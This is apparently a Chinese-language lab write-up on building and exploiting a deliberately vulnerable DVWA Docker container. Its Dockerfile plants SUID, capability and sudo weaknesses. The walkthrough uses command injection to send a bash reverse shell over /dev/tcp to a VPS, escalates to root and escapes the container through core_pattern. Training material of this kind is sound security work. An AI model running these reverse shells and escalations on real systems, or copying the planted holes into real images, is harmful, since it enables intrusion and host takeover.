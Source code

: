 ```yaml
---
categories: [Docker]
tags: [容器逃逸]
---
```


# 2023.08.28

## 0x01 环境搭建

使用到的机器：sec-container2（IP：10.255.200.87）、阿里云 vps（8.130.104.104）、本地 kali 虚拟机（10.211.55.4）

### Dockerfile 如下：

```bash
# 基于基础镜像centos-lamp进行自定义
FROM dockerfiles/centos-lamp
# 将工作目录设置为/var/www/html 接下来的操作都在这个目录下进行
WORKDIR /var/www/html
# 使用wget下载文件 然后解压到当前工作目录 --strip-components=1表示解压时去掉一个顶层目录
RUN wget https://github.com/RandomStorm/DVWA/archive/v1.0.8.tar.gz -O- | tar xvz --strip-components=1
# 启动mysql服务 使用mysqladmin命令将root用户的密码改为p@ssw0rd 停止mysql服务
RUN service mysqld start && mysqladmin -uroot password p@ssw0rd && service mysqld stop
# 容器将监听并暴露在主机上的80端口，以便通过主机的80端口访问容器中的web服务
EXPOSE 80
USER root
# 更换镜像源（需提前将Centos-vault-6.10.repo从https://mirrors.aliyun.com/repo/Centos-vault-6.10.repo目录下载到本地）
COPY ./Centos-vault-6.10.repo /home
COPY ./here_u_r.txt /root
COPY ./open_me.txt /home
WORKDIR /home
RUN rm -rf /etc/yum.repos.d/*
RUN cp -r ./Centos-vault-6.10.repo /etc/yum.repos.d/CentOS-Base.repo
RUN yum clean all
RUN yum makecache
WORKDIR /var/www/html
# 安装sudo
RUN rpm --rebuilddb && yum install -y sudo && yum install -y gcc
# 给用户apache设置密码
RUN echo 'apache:%Kin,qnEfJQ]r;YY' | chpasswd
# 给find指令设置suid权限+除root用户外其他用户不能执行getcap指令+给tar指令设置cap_dac_read_search capability
RUN chmod u+s $(which find) && \
    chmod 700 $(which getcap) && \
    setcap 'cap_dac_read_search=ep' $(which tar)
# apache用户可以使用sudo passwd修改密码
RUN echo 'apache ALL=(ALL) /usr/bin/passwd' > /etc/sudoers.d/apache-password
CMD ["supervisord", "-n"]
```

~~注：由于本地的虚拟机可以找到内网的 sec-container2 机器，但是内网机器无法找到 kali 虚拟机，因此需要在 vps 与 kali 之间进行端口映射。~~

注：可以直接在内网机器和 vps 之间进行端口映射。内网机器为客户端，vps 为服务端。配置好之后可以直接利用公网 ip+相应端口访问相应的服务。

### 使用 frp 配置端口映射：

frp：内网穿透和反向代理软件，支持 tcp，udp，http，https 等协议

#### 工作原理：

- 服务端运行，监听一个主端口，等待客户端的连接；
- 客户端连接到服务端的主端口，同时告诉服务端要监听的端口和转发类型；
- 服务端 fork 新的进程监听客户端指定的端口；
- 外网用户连接到客户端指定的端口，服务端通过和客户端的连接将数据转发到客户端；
- 客户端进程再将数据转发到本地服务，从而实现内网对外暴露服务的能力。
-

#### 具体流程：

可参考[frp](https://www.cnblogs.com/henry666/p/13966992.html)

<font color="#808080">注：需要给 vps 相应端口添加安全组入方向访问规则。</font>

<u>根据靶场的设计思路，需要设置两个端口映射（3333<---->5555；4444<---->6666</u>

```bash
# 阿里云vps:frp服务端
[common]
bind_port = 7000

dashboard_port = 7777

dashboard_user = admin

dashboard_pwd = admin

# 启动服务端服务
./frps -c ./frps.ini
```

```bash
# kali虚拟机：frp客户端
[common]
server_addr = 8.130.104.104
server_port = 7000

[forward1]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 6666

[forward2]
type = tcp
local_ip = 127.0.0.1
local_port = 3333
remote_port = 5555

#启动客户端服务
./frpc -c ./frpc.ini
```

---

### 宿主机启动容器

```bash
# 使用Dockerfile创建自定义的镜像
docker build -t dvwa .
# 以守护进程模式后台+特权模式启动容器，映射80端口，挂载宿主机procfs
docker run --privileged -d -p 80 -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern dvwa
```

![image2023-8-28_14-13-16.png](https://s2.loli.net/2023/10/08/fy2xhaDXSk9PMRJ.png)

### kali 端：

1. 打开浏览器，使用**ip 地址+相应端口（10.255.200.87:32774）**在浏览器中访问 dvwa 服务（初始化步骤省略）
2. 任意利用其中某个漏洞，进行反弹 shell（此处使用命令注入漏洞）
   1. 在终端窗口中开启 nc 监听（nc -nlvp 4444）
   2. 命令注入输入框输入<code>;bash -i >& /dev/tcp/8.130.104.104/6666 0>&1</code>获取 shell
      ![image2023-8-28_14-18-56.png](https://s2.loli.net/2023/10/08/pf4ighKaJSQ6bNx.png)
3. **/home**目录下存在一个 txt 文件
   ![image2023-8-28_14-27-43.png](https://s2.loli.net/2023/10/08/r2OiWwlYBZTzaXM.png)
4. 使用 find 指令查找具有 suid 权限的指令 <code>find / -perm -u=s -type f 2>/dev/null</code>
   1. ![image2023-8-28_14-22-11.png](https://s2.loli.net/2023/10/08/nHzxh6u4TrALEp7.png)
   2. 在/tmp 目录下新建一个文件，利用 find 指令的-exec 选项执行指令 <code>find 1 -exec getcap -r / 2>/dev/null \;</code>
   3. ![image2023-8-28_14-26-0.png](https://s2.loli.net/2023/10/08/YieAUL9nQCcS1hr.png)
5. 使用 tar 指令将/root 目录压缩至/tmp 目录，解压查看目录下文件
   1. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   2. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   3. brainfuck->base64-><code>,%Kin,qnEfJQ]r;YY</code>
6. 将当前 shell 切换为完整 tty，成功后输入该字符串，修改密码
   ![image2023-8-28_14-35-1.png](https://s2.loli.net/2023/10/08/wulVSzNyC5jKMOm.png)
7. 尝试使用 su 指令登录 root 用户
   ![image2023-8-28_14-36-47.png](https://s2.loli.net/2023/10/08/wuIUpbSvLeNjG9m.png)
8. 参考[Docker 容器逃逸](https://wuheuu.github.io/docker/Docker容器逃逸/)中 3.2 部分进行利用，.x.py 文件中 ip 地址设置为 8.130.104.104，端口设置为 5555。kali 开启 3333 端口监听，在之前的 shell 中执行 x 文件，制造崩溃，拿到 shell。
   ![image2023-8-28_14-42-23.png](https://s2.loli.net/2023/10/08/VW26reyTMJnSBEu.png)
9. 将 shell 切换为完整 tty，使用<code>export PATH=$PATH:/usr/sbin</code>添加/usr/sbin 环境变量，执行 ifconfig 指令。
   1. 逃逸出来
      ![image2023-8-28_14-44-9.png](https://s2.loli.net/2023/10/08/zqHA1XBkrMogLCG.png)
   2. 与容器内 ifconfig 返回结果进行对比
      ![image2023-8-28_14-45-6.png](https://s2.loli.net/2023/10/08/Pby8VjXiBsmSHwo.png)

---

## 0x02 附录：

- 正向 shell 与反向 shell（bind shell & reverse shell）**具体可看参考资料(3)**
  - 正向 shell：攻击者可以在靶机上启动一个服务，从而使得攻击者可以连接这个服务并执行一些命令。如果要启动一个 bind shell，攻击者必须有目标机器的 ip 地址。
  - 反向 shell：攻击者需要在攻击端机器上启动一个服务器，靶机作为客户端来连接这个服务器。成功连接后，攻击者可以得到靶机的 shell。要使用反向 shell，攻击者不需要知道目标机器 ip 地址。
- 运行容器时注意需要开启--privileged 选项或者使用--cap-add，否则很多指令将无法执行，即使用户在容器内是 root 身份
- 在反弹的 shell 中有些命令无法执行可能是由于忘记将 shell 切换为完整 tty
- 尝试修改密码时出现 passwd:passwd: system_u:system_r:spc_t:s0 is not authorized to change the password of root，原因是宿主机未关闭 SElinux 强制访问控制，需要关闭后重启宿主机，并使用 getenforce 进行验证。

---

## 0x03 参考资料：

1. [frp](https://www.cnblogs.com/henry666/p/13966992.html)
2. [bind shell & reverse shell](https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/)
3. [正向 shell 与反向 shell](https://blog.csdn.net/weixin_45936149/article/details/123752352)
